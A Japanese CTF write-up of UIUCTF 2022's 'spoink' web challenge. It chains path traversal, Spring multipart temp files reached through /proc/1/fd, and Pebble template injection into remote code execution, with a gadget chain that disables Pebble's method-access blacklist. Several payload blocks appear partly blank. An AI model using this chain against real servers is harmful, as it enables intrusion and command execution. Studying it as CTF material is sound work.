




UIUCTF 2022に ./Vespiary で出てチームとしては27位でした。


- ctftime: https://ctftime.org/event/1600

UIUCTFは[SIGPwny](https://ctftime.org/team/27763)主催のCTFで、スコアページのデザインまで凝っていて好印象でした。ロゴデザインがかなり好きです。問題についてはjailカテゴリがあったのが印象的でした[^intro-1]。また、中難易度CTFだと思って気軽に参加したら非常に難しい[^intro-2]問題もちらほらあって、来年はもっと腰を据えて挑みたいです。

解いた問題の中でもwebのspoink[^intro-3]という問題が特におもしろく、また、SSTIやSpringに対する知見も得たので、共有の意味も兼ねて久しぶりのwriteupです。

[^intro-1]: jailカテゴリではpyjailやFirefoxアドオンに関する問題が出題されてました。Firefoxアドオンの問題は見たことがないのでwriteupが手に入ったら復習したいです。他にもsystemsやosintの謎カテゴリもありました。
[^intro-2]: 面倒くさいという観点で難しいということではなく、本質的に解くのが難しく解きごたえがあって良いという意味。
[^intro-3]: Spoinkはポケモンのバネブーの英語名らしい。

<!-- truncate -->

## spoink


絵がかわいい。たぶんバネブーをイメージして描かれてる[^spoink-1]。

- 2 solves / 495 points
- tag: web, java
- author: arxenix

問題文:

> "a cute anthropomorphised spring as a line drawing"<br />
> forget PHP, Java is the new best thing

[^spoink-1]: 追記: どうやらDALL·EやMidjourneyで生成した画像（絵）らしい。すべての問題に対して絵が用意されていてすごいなと思っていたけど、なるほど。問題文内の"a cute anthropomorphised spring as a line drawing"がAIに投げた文字列に対応している。CTFらしい良い試みだと思う。

## 問題概要

Java製のWebアプリケーション。

フラグはサーバ上のアプリケーションのワーキングディレクトリに実行ファイル`./getflag`として置かれている。このファイルを実行してその出力結果を得るのがこの問題のゴール。

配布ファイルはバイトコードなので適当なツールでデコンパイルします。どこかのCTFみたいにバイトコードに細工はされておらず、素直に元のコードが見れたので一安心。

重要そうなファイルは以下のとおりです:

```java title="SpoinkApplication.class"
/* snip */

@SpringBootApplication
public class SpoinkApplication {
  public static void main(String[] args) {
    SpringApplication.run(tf.uiuc.spoink.SpoinkApplication.class, new String[0]);
  }

  @Bean
  public Loader<?> pebbleLoader() {
    return (new PebbleEngine.Builder()).build().getLoader();
  }
}
```
Spring製のアプリケーション。テンプレートエンジンとして[Pebble](https://github.com/PebbleTemplates/pebble)が使われている。初めて知ったテンプレートエンジンだが文法はTwigに近いようだ。なお、最新版の3.1.5が使われていて既知の脆弱性を使う問題ではなさそう。

`HomeController.class:`
```java
/* snip */

@Controller
public class HomeController {
  @RequestMapping({"/"})
  public String getTemplate(@RequestParam("x") Optional<String> template, Model model) {
    return template.orElse("home.pebble");
  }
}
```
エンドポイントはこれだけ。クエリパラメータ`x`でテンプレートエンジンのレンダリング対象のファイルを指定できる。
例えば`/?x=about.pebble`にアクセスすると、サーバ上の`templates/about.pebble`がレンダリングされる:


```properties title="application.properties"
pebble.prefix = templates
pebble.suffix =
```
Pebbleの設定値。

問題の本質部分のファイルは以上です。非常にシンプルな問題。

## 解法

以下ではローカルテストのために`http://localhost:8080`を使っています。

### パート1: path traversal

雑に`/?x=../../../../etc/passwd`にアクセスすると`/etc/passwd`が見れた。



ソースコードを確認したら:

- https://github.com/PebbleTemplates/pebble/blob/v3.1.5/pebble/src/main/java/com/mitchellbosecke/pebble/loader/FileLoader.java#L67-L100

でパス解決されていた。どうやら「`pebble.prefix` → クエリパラメータ`x` → `pebble.suffix`」の順に単純なパス結合をしているだけで、上の例では`templates/../../../../etc/passwd`がアクセスパスとなっている。

つまり、ファイル名が既知であり且つ権限のあるサーバ上の任意のファイルに対してテンプレートエンジンを噛ませることができるということである。

問題の設定から察するに出題者が期待している攻撃は、「①好きな文字列を仕込んだファイルをサーバ上に配置 → ②LFIでテンプレートエンジンにそれを読ませる → ③SSTI to RCE 」の流れだろう。まずは、①が可能かどうかを考えたい。

### パート2: 好きな文字列を仕込んだファイルをサーバ上に配置

エンドポイントは `/` のみで、好きな文字列を仕込んだファイルをサーバ上に配置するのは一見不可能に見える。

ところでPHPでは`PHP_SESSION_UPLOAD_PROGRESS`を使ったmultipart POSTで任意文字列を仕込んだセッションファイルをサーバ上に配置する攻撃手法が知られている。HITCON CTF 2018で出題された[^part2-1]:

- http://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html

[^part2-1]: PHPに関しては「HITCON CTFでPHPやばすぎ問題が出題される → 典型として浸透する」という流れがよくあるイメージなので、Orange氏の[作問リスト](https://github.com/orangetw/My-CTF-Web-Challenges)をチェックしておくのは有用なのではと最近考えてる。

似たような機能がSpringにも存在しないかなあ〜と調べたらそれっぽいものを見つけた:

- https://stackoverflow.com/questions/29923682/how-does-one-specify-a-temp-directory-for-file-uploads-in-spring-boot
- https://docs.spring.io/spring-boot/docs/2.6.6/api/org/springframework/boot/autoconfigure/web/servlet/MultipartProperties.html

multipart POSTをリクエストしたらアップロードしたファイルが`spring.http.multipart.location`に一時的に置かれるらしい。今回は未設定なので、デフォルトの`/tmp`以下に配置されるとのこと。

都合が良いことに、エンドポイント`/`に付いてるアノテーションは`@RequestMapping({"/"})`でメソッド未指定なので、POSTリクエストも受け付ける。

試しにmultipart POSTを実験してみた。


適当なファイルbig.txtを用意し、
```
$ curl --limit-rate 1k -X POST http://localhost:8080 -F a=@./big.txt
```
でリクエストを送り、レスポンスが返ってくる前にサーバ上（Dockerコンテナ内）でlsで確認:
```
chalusr@4c6d91e6f3f8:/tmp/tomcat.8080.2138978788528246977/work/Tomcat/localhost/ROOT$ ls -la
total 72
drwxr-xr-x 2 chalusr chalusr  4096 Aug  1 12:29 .
drwxr-xr-x 3 chalusr chalusr  4096 Aug  1 12:28 ..
-rw-r--r-- 1 chalusr chalusr 65358 Aug  1 12:29 upload_6c990f06_a3c1_471e_a5cc_1fc69fac296c_00000000.tmp
```

期待通り、サーバ上にファイルが配置された。ファイルパスは

- `/tmp/tomcat.8080.2138978788528246977/work/Tomcat/localhost/ROOT/upload_6c990f06_a3c1_471e_a5cc_1fc69fac296c_00000000.tmp`

になった。ここで、一時ファイルは通信が完了すると即座に消えることが予想されるため、巨大なファイルを送りつけ、且つ、rate limitをかけてリクエストを送ることで一時ファイルが長く残存するような戦略を取っている。

### パート3: テンプレートエンジンにアップロードファイルを読ませる

好きなファイルをサーバ上に配置できることは確認できたが、テンプレートエンジンにこのファイルを読ませるには、あらかじめ一時ファイルのパスを知っておく必要がある。

まずファイル名がどのように定まるのかを調べた。ソースコードは
```java
// From: https://github.com/apache/tomcat/blob/9.0.60/java/org/apache/tomcat/util/http/fileupload/disk/DiskFileItem.java#L571-L573
final String tempFileName = String.format("upload_%s_%s.tmp", UID, getUniqueId());

tempFile = new File(tempDir, tempFileName);
```
となっていて、`UID`は
```java
// From: https://github.com/apache/tomcat/blob/9.0.60/java/org/apache/tomcat/util/http/fileupload/disk/DiskFileItem.java#L79-L80
private static final String UID =
        UUID.randomUUID().toString().replace('-', '_');
```
より、乱数が使われている。

推測は無理に見える。

途方に暮れてソースコードを漁っていたら、アプリケーション側でこの一時ファイルを明示的に使用していなくてもSpring（Tomcat）の内部実装ではファイルをopenしていることに気づいた。つまり、ファイルディスクリプタが割り当てられるのでは？と閃いた。

Dockerコンテナ内ではアプリケーションのプロセスIDは1なので、`/proc/1/fd/*`から一時ファイルへのシンボリックリンクが張られそう。

再び
```
$ curl --limit-rate 1k -X POST http://localhost:8080 -F a=@./big.txt
```
でリクエストを送り、レスポンスが返ってくる前にサーバ上でlsで確認:
```
chalusr@4c6d91e6f3f8:/proc/1/fd$ ls -la
total 0
dr-x------ 2 chalusr chalusr  0 Aug  1 12:28 .
dr-xr-xr-x 9 chalusr chalusr  0 Aug  1 12:28 ..
lrwx------ 1 chalusr chalusr 64 Aug  1 12:28 0 -> /dev/null
l-wx------ 1 chalusr chalusr 64 Aug  1 12:28 1 -> 'pipe:[4141757]'
lrwx------ 1 chalusr chalusr 64 Aug  1 12:28 10 -> 'anon_inode:[eventpoll]'
lrwx------ 1 chalusr chalusr 64 Aug  1 12:46 11 -> 'anon_inode:[eventfd]'
lrwx------ 1 chalusr chalusr 64 Aug  1 12:46 13 -> 'socket:[4145313]'
l-wx------ 1 chalusr chalusr 64 Aug  1 12:46 14 -> /tmp/tomcat.8080.2138978788528246977/work/Tomcat/localhost/ROOT/upload_6c990f06_a3c1_471e_a5cc_1fc69fac296c_00000001.tmp
l-wx------ 1 chalusr chalusr 64 Aug  1 12:28 2 -> 'pipe:[4141758]'
lr-x------ 1 chalusr chalusr 64 Aug  1 12:28 3 -> /usr/local/openjdk-18/lib/modules
lr-x------ 1 chalusr chalusr 64 Aug  1 12:28 4 -> /usr/src/app/spoink-0.0.1-SNAPSHOT-spring-boot.jar
lr-x------ 1 chalusr chalusr 64 Aug  1 12:28 5 -> /usr/src/app/spoink-0.0.1-SNAPSHOT-spring-boot.jar
lr-x------ 1 chalusr chalusr 64 Aug  1 12:28 6 -> /dev/random
lrwx------ 1 chalusr chalusr 64 Aug  1 12:28 7 -> 'socket:[4142804]'
lr-x------ 1 chalusr chalusr 64 Aug  1 12:28 8 -> /dev/urandom
lrwx------ 1 chalusr chalusr 64 Aug  1 12:28 9 -> 'socket:[4141856]'
```

`/proc/1/fd/14`にシンボリックリンクがある。

試しに
```
$ echo '{{ "Hello, SSTI" }}' > hello.pebble
$ seq 50000 | sed 's/^.*$/test/' >> hello.pebble
```
で先頭に`Hello, SSTI`とレンダリングされる`hello.pebble`を作成して送信し、ブラウザで

- `/?x=../../../../proc/1/fd/14`

にアクセスした:



良さそう。テンプレートエンジンも動いている。これは勝ちです。

あとはSSTIからRCEにつなげるだけ。どうせ既知のRCE手法があるでしょと軽く見ていた。そう、このときまでは...

### パート4: SSTI to RCE（起）

ネット上からRCEにもっていくペイロードを探したら、あっさり見つかった:

- https://research.securitum.com/server-side-template-injection-on-the-example-of-pebble/

どうやら
```


{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
```
を投げるといいらしい。やってみる...

しかし、`id`コマンドの結果が表示されない。

サーバの状態を見るとエラーが出ていた（わかりやすく改行を入れています）:
```
com.mitchellbosecke.pebble.error.ClassAccessException:
For security reasons access to public static
java.lang.Class java.lang.Class.forName(java.lang.String)
throws java.lang.ClassNotFoundException method is denied.
(../../../../proc/1/fd/14:3)
```
なんかセキュリティ機構が入ってる？？？

調べてみたら

- Issue: https://github.com/PebbleTemplates/pebble/issues/493
- PR: https://github.com/PebbleTemplates/pebble/pull/511

で修正されていた。使われているPebbleは最新版なので当然この修正も入っている。

かなり調べたけど、この修正版以降のRCEにもっていくペイロードはネット上で見つからない...。
つまり、独力でSSTI to RCEを達成しないといけない。つら...。

気を取り直してまずはPR\#511のmitigationの内容を把握する。

内容としては、テンプレート内でオブジェクトのメソッドが呼ばれたときに

- https://github.com/PebbleTemplates/pebble/blob/v3.1.5/pebble/src/main/java/com/mitchellbosecke/pebble/attributes/methodaccess/BlacklistMethodAccessValidator.java

の`isMethodAccessAllowed`が呼ばれ、black listによって悪性のメソッド呼び出しを弾いている。

`Class`や`Runtime`のインスタンスにメソッドが生やせなかったり、`getClass`メソッドが呼べなかったりと制限が厳しい。このvalidatorをbypassした上でRCEに持っていくのが当面の目標である。black list形式のvalidationはbypassするために存在すると言っても過言ではない。

また、続く考察のためにメモしておくと、アプリケーション側のPebbleの設定でvalidatorを切り替えることが可能で、[`NoOpMethodAccessValidator`](https://github.com/PebbleTemplates/pebble/blob/v3.1.5/pebble/src/main/java/com/mitchellbosecke/pebble/attributes/methodaccess/NoOpMethodAccessValidator.java)に設定すれば任意のメソッドを呼ぶことができる。特に設定していなかった場合はデフォルトの`BlacklistMethodAccessValidator`が使われ、今回はそれである。

### パート4: SSTI to RCE（承）

ここからはRCEにもっていくためのGadget探しがスタート。

まず、Pebble本体ではなくPebbleへのSpring拡張から攻めることにした。

- pebble-spring-boot-starter: https://pebbletemplates.io/wiki/guide/spring-boot-integration/

どうやら通常のPebbleに加えて

- `{{ beans }}`: Springアプリケーションに登録されているBeanの集合
- `{{ request }}`: `HttpServletRequest`インスタンス
- `{{ response }}`: `HttpServletResponse`インスタンス
- `{{ session }}`: `HttpSession`インスタンス

にアクセスできるらしい。`Class`インスタンスが直接使えない以上、Gadgetを集めるには`Class`以外の色々なクラスのインスタンスにアクセスできるようにすることが重要である。

経験上、SpringアプリケーションはBeanとして暗黙的に多くのインスタンスが登録されている。そのため、
```
{{ beans.keySet() }}
```
でBean一覧を取得した:
```
[org.springframework.context.annotation.internalConfigurationAnnotationProcessor, org.springframework.context.annotation.internalAutowiredAnnotationProcessor, org.springframework.context.annotation.internalCommonAnnotationProcessor, org.springframework.context.event.internalEventListenerProcessor, org.springframework.context.event.internalEventListenerFactory, spoinkApplication, org.springframework.boot.autoconfigure.internalCachingMetadataReaderFactory, homeController, pebbleLoader, org.springframework.boot.autoconfigure.AutoConfigurationPackages, org.springframework.boot.autoconfigure.context.PropertyPlaceholderAutoConfiguration, propertySourcesPlaceholderConfigurer, org.springframework.boot.autoconfigure.websocket.servlet.WebSocketServletAutoConfiguration$TomcatWebSocketConfiguration, websocketServletWebServerCustomizer, org.springframework.boot.autoconfigure.websocket.servlet.WebSocketServletAutoConfiguration, org.springframework.boot.autoconfigure.web.servlet.ServletWebServerFactoryConfiguration$EmbeddedTomcat, tomcatServletWebServerFactory, org.springframework.boot.autoconfigure.web.servlet.ServletWebServerFactoryAutoConfiguration, servletWebServerFactoryCustomizer, tomcatServletWebServerFactoryCustomizer, org.springframework.boot.context.properties.ConfigurationPropertiesBindingPostProcessor, org.springframework.boot.context.internalConfigurationPropertiesBinderFactory, org.springframework.boot.context.internalConfigurationPropertiesBinder, org.springframework.boot.context.properties.BoundConfigurationProperties, org.springframework.boot.context.properties.EnableConfigurationPropertiesRegistrar.methodValidationExcludeFilter, server-org.springframework.boot.autoconfigure.web.ServerProperties, webServerFactoryCustomizerBeanPostProcessor, errorPageRegistrarBeanPostProcessor, org.springframework.boot.autoconfigure.web.servlet.DispatcherServletAutoConfiguration$DispatcherServletConfiguration, dispatcherServlet, spring.mvc-org.springframework.boot.autoconfigure.web.servlet.WebMvcProperties, org.springframework.boot.autoconfigure.web.servlet.DispatcherServletAutoConfiguration$DispatcherServletRegistrationConfiguration, dispatcherServletRegistration, org.springframework.boot.autoconfigure.web.servlet.DispatcherServletAutoConfiguration, org.springframework.boot.autoconfigure.task.TaskExecutionAutoConfiguration, taskExecutorBuilder, applicationTaskExecutor, spring.task.execution-org.springframework.boot.autoconfigure.task.TaskExecutionProperties, org.springframework.boot.autoconfigure.web.servlet.error.ErrorMvcAutoConfiguration$WhitelabelErrorViewConfiguration, error, beanNameViewResolver, org.springframework.boot.autoconfigure.web.servlet.error.ErrorMvcAutoConfiguration$DefaultErrorViewResolverConfiguration, conventionErrorViewResolver, spring.web-org.springframework.boot.autoconfigure.web.WebProperties, org.springframework.boot.autoconfigure.web.servlet.error.ErrorMvcAutoConfiguration, errorAttributes, basicErrorController, errorPageCustomizer, preserveErrorControllerTargetClassPostProcessor, org.springframework.boot.autoconfigure.web.servlet.WebMvcAutoConfiguration$EnableWebMvcConfiguration, requestMappingHandlerAdapter, requestMappingHandlerMapping, welcomePageHandlerMapping, localeResolver, themeResolver, flashMapManager, mvcConversionService, mvcValidator, mvcContentNegotiationManager, mvcPatternParser, mvcUrlPathHelper, mvcPathMatcher, viewControllerHandlerMapping, beanNameHandlerMapping, routerFunctionMapping, resourceHandlerMapping, mvcResourceUrlProvider, defaultServletHandlerMapping, handlerFunctionAdapter, mvcUriComponentsContributor, httpRequestHandlerAdapter, simpleControllerHandlerAdapter, handlerExceptionResolver, mvcViewResolver, mvcHandlerMappingIntrospector, viewNameTranslator, org.springframework.boot.autoconfigure.web.servlet.WebMvcAutoConfiguration$WebMvcAutoConfigurationAdapter, defaultViewResolver, viewResolver, requestContextFilter, org.springframework.boot.autoconfigure.web.servlet.WebMvcAutoConfiguration, formContentFilter, com.mitchellbosecke.pebble.boot.autoconfigure.PebbleServletWebConfiguration, pebbleViewResolver, com.mitchellbosecke.pebble.boot.autoconfigure.PebbleAutoConfiguration, springExtension, pebbleEngine, pebble-com.mitchellbosecke.pebble.boot.autoconfigure.PebbleProperties, org.springframework.boot.autoconfigure.aop.AopAutoConfiguration$ClassProxyingConfiguration, forceAutoProxyCreatorToUseClassProxying, org.springframework.boot.autoconfigure.aop.AopAutoConfiguration, org.springframework.boot.autoconfigure.availability.ApplicationAvailabilityAutoConfiguration, applicationAvailability, org.springframework.boot.autoconfigure.jackson.JacksonAutoConfiguration$Jackson2ObjectMapperBuilderCustomizerConfiguration, standardJacksonObjectMapperBuilderCustomizer, spring.jackson-org.springframework.boot.autoconfigure.jackson.JacksonProperties, org.springframework.boot.autoconfigure.jackson.JacksonAutoConfiguration$JacksonObjectMapperBuilderConfiguration, jacksonObjectMapperBuilder, org.springframework.boot.autoconfigure.jackson.JacksonAutoConfiguration$ParameterNamesModuleConfiguration, parameterNamesModule, org.springframework.boot.autoconfigure.jackson.JacksonAutoConfiguration$JacksonObjectMapperConfiguration, jacksonObjectMapper, org.springframework.boot.autoconfigure.jackson.JacksonAutoConfiguration, jsonComponentModule, org.springframework.boot.autoconfigure.context.ConfigurationPropertiesAutoConfiguration, org.springframework.boot.autoconfigure.context.LifecycleAutoConfiguration, lifecycleProcessor, spring.lifecycle-org.springframework.boot.autoconfigure.context.LifecycleProperties, org.springframework.boot.autoconfigure.http.HttpMessageConvertersAutoConfiguration$StringHttpMessageConverterConfiguration, stringHttpMessageConverter, org.springframework.boot.autoconfigure.http.JacksonHttpMessageConvertersConfiguration$MappingJackson2HttpMessageConverterConfiguration, mappingJackson2HttpMessageConverter, org.springframework.boot.autoconfigure.http.JacksonHttpMessageConvertersConfiguration, org.springframework.boot.autoconfigure.http.HttpMessageConvertersAutoConfiguration, messageConverters, org.springframework.boot.autoconfigure.info.ProjectInfoAutoConfiguration, spring.info-org.springframework.boot.autoconfigure.info.ProjectInfoProperties, org.springframework.boot.autoconfigure.sql.init.SqlInitializationAutoConfiguration, spring.sql.init-org.springframework.boot.autoconfigure.sql.init.SqlInitializationProperties, org.springframework.boot.sql.init.dependency.DatabaseInitializationDependencyConfigurer$DependsOnDatabaseInitializationPostProcessor, org.springframework.boot.autoconfigure.task.TaskSchedulingAutoConfiguration, scheduledBeanLazyInitializationExcludeFilter, taskSchedulerBuilder, spring.task.scheduling-org.springframework.boot.autoconfigure.task.TaskSchedulingProperties, org.springframework.boot.autoconfigure.web.client.RestTemplateAutoConfiguration, restTemplateBuilderConfigurer, restTemplateBuilder, org.springframework.boot.autoconfigure.web.embedded.EmbeddedWebServerFactoryCustomizerAutoConfiguration$TomcatWebServerFactoryCustomizerConfiguration, tomcatWebServerFactoryCustomizer, org.springframework.boot.autoconfigure.web.embedded.EmbeddedWebServerFactoryCustomizerAutoConfiguration, org.springframework.boot.autoconfigure.web.servlet.HttpEncodingAutoConfiguration, characterEncodingFilter, localeCharsetMappingsCustomizer, org.springframework.boot.autoconfigure.web.servlet.MultipartAutoConfiguration, multipartConfigElement, multipartResolver, spring.servlet.multipart-org.springframework.boot.autoconfigure.web.servlet.MultipartProperties, org.springframework.aop.config.internalAutoProxyCreator]
```
`spoinkApplication`、`pebbleEngine`、`pebbleLoader`などがあるのはこの問題ならではである。例えばBean`pebbleLoader`のインスタンスが欲しい場合は
```
{{ beans.get("pebbleLoader") }}
```
で手に入る。

また、RCEをするためには`Class.forName`がほしいなと思い、依存ライブラリ内で検索してひとつひとつ悪用できないか探ってみた:



jackson-databindライブラリのTypeFactoryクラスの

- https://github.com/FasterXML/jackson-databind/blob/jackson-databind-2.13.2.2/src/main/java/com/fasterxml/jackson/databind/type/TypeFactory.java#L369

が利用できそうである。
```

```
で`String`の`Class`インスタンスが手に入る。続いて`Class`インスタンスから元のインスタンスを生成したい。これは
```
{{ beans.get("jacksonObjectMapper").readValue("{}", stringClass) }}
```
で可能。デフォルトコンストラクタが定義されていることが条件になるが、これで好きなクラスのインスタンスを生成できるようになった。

やっぱりJacksonのObjectMapperって便利だな。

### パート4: SSTI to RCE（転）

あとはよしなにRCEまでのGadgetを組み立てれば良い。

試行錯誤したらできた（`evil.pebble`）:
```








{{ loader.setPrefix("templates") }}
{{ loader.setSuffix("") }}





{{ template.evaluate(response.getWriter()) }}
```
なにをやっているかと言うと、

1. `NoOpMethodAccessValidator`のインスタンスを生成 → 変数`accessValidator`に代入
2. `PebbleEngine$Builder`のインスタンスを生成 → 変数`builder`に代入
3. `builder`から`accessValidator`をvalidatorに設定した`PebbleEngine`をbuildし、変数`engine`に代入
4. リクエストパラメータ`rceFileName`を読み込んで、変数`rceFileName`に代入
5. `engine`で`rceFileName`のファイルを読み込んで評価した内容をHTTPレスポンスに流す

でPebbleEngineの内部でmitigationを消したPebbleEngineを作成してそれを用いて任意ファイルをレンダリング可能にした。

```
$ seq 50000 | sed 's/^.*$/test/' >> evil.pebble
```
でファイルを巨大にしたのち、パート1~2で行った攻撃を行ってブラウザで

- `/?x=../../../../proc/1/fd/14&rceFileName=about.pebble`

にアクセスすると`about.pebble`の内容がレンダリングされた:


良さそう。
なんと、今レンダリングしているテンプレートエンジンはmitigationが吹き飛んでるのでRCEし放題です。

### パート4: SSTI to RCE（結）

RCEの準備が整ったので今度はフラグファイルを実行するテンプレートを用意する。

用意した（`rce.pebble`）:
```

{{ (1).TYPE.forName("java.lang.Runtime").methods[0].invoke(null, null).exec(cmd) }}
```
これがレンダリングされたら`/tmp/flag.txt`にフラグが出力される。

同様に
```
$ seq 50000 | sed 's/^.*$/test/' >> rce.pebble
```
でファイルを巨大化して
```
$ curl --limit-rate 1k -X POST http://localhost:8080 -F a=@./rce.txt & curl --limit-rate 1k -X POST http://localhost:8080 -F a=@./rce.txt
```
を送りつけると、リクエストが2並列に飛ぶので、`rce.pebble`は`/proc/1/fd/14`と`/proc/1/fd/15`に存在することになる。

ところでPebbleの実装を読むとわかるのだが、実は一度レンダリングされたファイルの中身はキャッシュされるので、`/proc/1/fd/14`が書き換わっても問題ない。つまり、

- `/proc/1/fd/14`は`evil.pebble`の内容
- `/proc/1/fd/15`は`rce.pebble`の内容

が対応していることになる。ブラウザで

- `/?x=../../../../proc/1/fd/14&rceFileName=../../../../proc/1/fd/15`

にアクセスすると



で`Process[pid=70, exitValue=0]`が表示されているのでうまくいっているようだ。
この状態で`/x?=../../../../tmp/flag.txt`にアクセスするとフラグが表示された:


ローカルでの攻撃成功が確認できたので、以上を本番サーバに行うとフラグ入手。

## フラグ

```
uiuctf{gRumP1g_iS_uglY}
```
かわらずのいしを持たせましょう。

## まとめ

自明なpath traversalから始まってLFI→SSTI→RCEまでつなげる複雑なexploitを要求する問題でした。SSTI to RCEパートでは、手法が確立されていないテンプレートエンジンに対して自分でGadgetを見つけてRCEまで組み立てる必要がありました。他のテンプレートエンジンだと

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

にあるように既知のSSTI to RCEの手法はたくさんあり、例えばJinja2はCTFだと頻出すぎて出題の流れがpyjailの類になりがちです。そういった意味だと、今回の問題は自分で攻撃手法を一から考えるということで、1つの脆弱性から致命的な脆弱性につなげる過程を楽しむ特有のおもしろさがありました。

ちなみに似た問題としてWeCTF 2022で出題された Request Bin (Extra Hard) があります。こちらはGoの標準ライブラリ`text/template`のSSTIを起点に、サーバ上のランダムなファイル名のフラグを奪取する問題です:

- 公式リポジトリ: https://github.com/wectf/2022#request-bin-extra-hard
- 解法例: https://gist.github.com/arkark/51e6dee1c548616ed35ac64fbe006fc1

同様に手法が確立されていないので自力でGadgetを見つけて組み立てる必要があります。この問題もおもしろいのでおすすめです。
